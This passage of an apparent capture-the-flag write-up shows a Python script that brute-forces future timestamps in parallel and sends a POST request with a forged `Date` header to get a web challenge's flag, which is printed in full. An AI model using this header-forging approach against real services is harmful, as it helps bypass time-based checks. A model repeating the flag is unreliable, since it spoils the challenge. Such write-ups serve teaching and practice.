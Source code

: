 ```py
def worker(args):
    return check(*args)

def find_ts(window=100_000):
    now = int(time.time())
    mgr   = Manager()
    stop  = mgr.Event()
    tasks = [(ts, stop) for ts in range(now, now + window)]

    with Pool() as pool:
        for ts in pool.imap_unordered(worker, tasks, chunksize=1_000):
            if ts:
                pool.terminate()
                return ts

def send(ts):
    hdr = datetime.fromtimestamp(ts, timezone.utc) \
            .strftime('%a, %d %b %Y %H:%M:%S GMT')
    r = requests.post(URL, headers={"Date": hdr})
    print(r.status_code, r.json())

if __name__ == "__main__":
    ts = find_ts()
    if ts:
        print(f"[+] Found ts = {ts}")
        send(ts)
    else:
        print("[-] No valid timestamp in window.")
```
dan ini outputnya
![](webwhenflag.png)

Flag: `bctf{ninety_nine_percent_of_gamblers_gamble_81dc9bdb}`

## Reverse Engineering
### class-struggle
![](revclassstruggle.png)
